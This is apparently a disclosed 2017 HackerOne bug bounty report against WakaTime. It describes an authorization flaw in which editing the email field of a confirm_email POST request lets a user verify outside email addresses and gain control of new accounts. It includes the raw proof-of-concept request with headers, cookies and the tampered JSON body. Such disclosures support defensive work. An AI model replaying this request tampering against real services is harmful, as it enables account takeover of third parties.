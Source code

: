 # IDOR create accounts and verify them with original account email

## Report Details
- **Report ID**: 244636
- **URL**: https://hackerone.com/reports/244636
- **State**: Closed
- **Severity**: low
- **Submitted**: 2017-06-30T05:02:09.962Z
- **Disclosed**: 2017-07-03T08:29:18.084Z

## Reporter
- **Username**: b3nac
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: wakatime

## Vulnerability Information
Good evening,

#Vulnerability

I'm able to create accounts with the email verification that originates from the first account I created. After changing the confirm_email request body to a different email.. After I use that verification link that account is now under my control and bypasses authorization.

This is my confirm email link that created the account https://wakatime.com/confirm_email/5e22456d-9aae-4267-b1a9-4315c2605d89/█████.

#POC

Originally the post body was going to my main email connected to my Github account █████████  then I changed the post body attribute to ```{"email":"█████████"}```

POST REQUEST
```
Host: wakatime.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:54.0) Gecko/20100101 Firefox/54.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/json
X-CSRFToken: 66f16a9ab12e3778160492e8aa76f9fdf9ca7cf7
X-Requested-With: XMLHttpRequest
Referer: https://wakatime.com/settings/account
Content-Length: 33
Cookie: csrftoken=66f16a9ab12e3778160492e8aa76f9fdf9ca7cf7; session=███; _ga=GA1.2.1188274138.1498795408; _gid=GA1.2.603159014.1498795408; _hp2_ses_props.1557708959=%7B%22ts%22%3A1498795408426%2C%22d%22%3A%22wakatime.com%22%2C%22h%22%3A%22%2F%22%7D; _hp2_id.1557708959=%7B%22userId%22%3A826311878078087%2C%22pageviewId%22%3A%227630061189198761%22%2C%22sessionId%22%3A%221354552863608073%22%2C%22identity%22%3Anull%2C%22trackerVersion%22%3A%223.0%22%7D; wcsid=KSo0f96nmTUAWwVN5079D0W1D0Q0Q0eF; hblid=WdTG0SjK3Fun3PvE5079D0W1D0Q0QFe2; _oklv=1498797390713%2CKSo0f96nmTUAWwVN5079D0W1D0Q0Q0eF; _okdetect=%7B%22token%22%3A%2214987955065310%22%2C%22proto%22%3A%22https%3A%22%2C%22host%22%3A%22wakatime.com%22%7D; olfsk=olfsk45303583606993025; _ok=4159-757-10-7625; _okbk=cd4%3Dtrue%2Cvi5%3D0%2Cvi4%3D1498797136273%2Cvi3%3Dactive%2Cvi2%3Dfalse%2Cvi1%3Dfalse%2Ccd8%3Dchat%2Ccd6%3D0%2Ccd5%3Daway%2Ccd3%3Dfalse%2Ccd2%3D0%2Ccd1%3D0%2C; remember_token=█████; _gat=1
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache
```
POST body:
```
{"email":"███████"}
```

Here's the screenshot of the request saying it was created █████.

And here's a screenshot of the newly created account ████.

#Patch

Only allow request to go out that match the originating account for verification.

This could lead to 3rd party account conflicts and takeovers. The alarming thing is that I can authorized outside emails from within my original account bypassing Oauth.

Please let me know if you have any questions.

## Attachments
No attachments
